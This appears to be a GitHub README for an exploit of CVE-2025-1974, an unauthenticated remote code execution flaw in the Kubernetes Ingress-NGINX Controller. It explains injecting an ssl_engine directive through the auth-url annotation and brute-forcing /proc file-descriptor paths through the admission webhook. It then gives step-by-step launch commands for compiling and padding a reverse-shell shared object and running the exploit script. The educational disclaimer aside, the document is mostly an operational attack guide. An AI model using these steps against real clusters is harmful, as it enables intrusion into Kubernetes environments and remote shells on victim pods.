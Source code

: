 # CVE-2025-1974 – Ingress-NGINX Arbitrary Code Execution Exploit

> ⚠️ For educational and authorized security research purposes only.

## 🔥 CVE-2025-1974 Overview

**CVE-2025-1974** is a critical remote code execution vulnerability in the **Kubernetes Ingress-NGINX Controller**. It allows an **unauthenticated attacker** to execute **arbitrary code inside the Ingress controller pod**, by abusing how custom annotations are processed during NGINX config reloads.

### Root Cause

Ingress-NGINX supports annotations like `auth-url` that get inserted into the live NGINX config. An attacker can smuggle **NGINX directives** using crafted annotation values (e.g., `ssl_engine`) which get injected into the config and are **executed during validation**.

When the `nginx -t` test validates a malicious `ssl_engine` directive pointing to a temporary uploaded `.so` file, NGINX tries to **dynamically load and execute** it via OpenSSL, causing **arbitrary code execution**.

## 🧠 Exploit Summary

This exploit works in **two phases**:

1. **Upload Phase**  
   A `.so` payload (compiled shared library) is uploaded to the NGINX ingress controller using a crafted POST request that **triggers NGINX buffering**, keeping the file open via a file descriptor (FD).

2. **Trigger Phase**  
   The attacker brute-forces `/proc/<pid>/fd/<fd>` combinations by sending forged `AdmissionReview` requests to the **admission webhook**, injecting a malicious `auth-url` that contains:
   ```nginx
   ssl_engine /proc/<pid>/fd/<fd>;

   ## 🚀 Exploit Launch Guide

Once you've prepared the following:

- ✅ `shell.c` — Your C reverse shell payload  
- ✅ `shell.so` — Compiled & padded `.so` shared object  
- ✅ `exploit.py` — The main Python exploit script  
- ✅ `requirements.txt` — Python dependencies

---

### 📦 1. Install Requirements

```bash
pip3 install -r requirements.txt

###🧨 2. Compile & Pad Payload
gcc -shared -fPIC -o shell.so shell.c
python3 -c "import os; f=open('shell.so','ab'); f.write(b'\x00'*(16384 - (os.path.getsize('shell.so') % 16384))); f.close()"

###💥 3. Launch Exploit
python3 exploit.py \
  --upload-url http://127.0.0.1:8080 \
  --admission-url https://127.0.0.1:8443 \
  --shell shell.so \
  --pid-start 26 \
  --pid-end 40 \
  --fd-start 1 \
  --fd-end 100




